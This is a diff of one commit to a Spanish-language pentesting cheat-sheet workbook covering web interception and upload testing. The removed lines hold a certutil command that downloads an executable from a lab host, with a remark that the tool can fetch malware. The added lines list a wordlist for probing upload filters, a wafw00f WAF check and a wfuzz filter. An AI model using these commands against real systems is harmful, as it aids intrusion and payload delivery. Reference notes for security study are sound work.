

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-sheet tab: WIFI
+sheet tab: Wireless
-R17 (WEEVELY): CERTUTIL
+R17 (WEEVELY): EXTENSIONES DE CARGA
-R19 (WEEVELY): certutil.exe -f -urlcache -split http://10.10.10.10:8000/recurso.exe recurso.exe
+R19 (WEEVELY): /usr/share/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt
-S19: Para descargar cosas desde la terminal de windows
+S19: Para probar en el upload de ficheros de una pagina web que extensiones permite
-T19: Es para descargar y validar certificados pero tiene un bug que puedes descargar cualquier cosa como malware
+T19: Usar con el Intruder de Burp
-R21 (WEEVELY): (empty)
+R21 (WEEVELY): WAFW00F
-R21:T21 fill: none
+R21:T21 fill: #C6EFCE
+R21:T21 merged
-R22 (WEEVELY): (empty)
+R22 (WEEVELY): Comando
-R22 fill: none
+R22 fill: #333333
-S22: (empty)
+S22: Descripcion
-T22: (empty)
+T22: Anotaciones
-R23 (WEEVELY): (empty)
+R23 (WEEVELY): wafw00f IP:puerto
-R23:T23 fill: none
+R23:T23 fill: #F2F2F2
-S23: (empty)
+S23: Para ver si tiene algun firewall la pagina web
-T23: (empty)
+T23: WAF Web Aplication Firewall
-N28 (WPSCAN): (empty)
+N28 (WPSCAN): wfuzz --hl 0
-N28:P28 fill: none
+N28:P28 fill: #D9D9D9
-O28: (empty)
+O28: Nos oculta todas las respuestas que tengan 0 lineas 0 output
```
Also changed, not shown: sheet General, sheet Parseo Gitbook, sheet Enumeracion & Escaneos, sheet Explotacion & Post-Explotacion, sheet Wireless, sheet Reconocimiento & Informacion, 1 more sheet, other sheet tabs, formulas that keep their value.
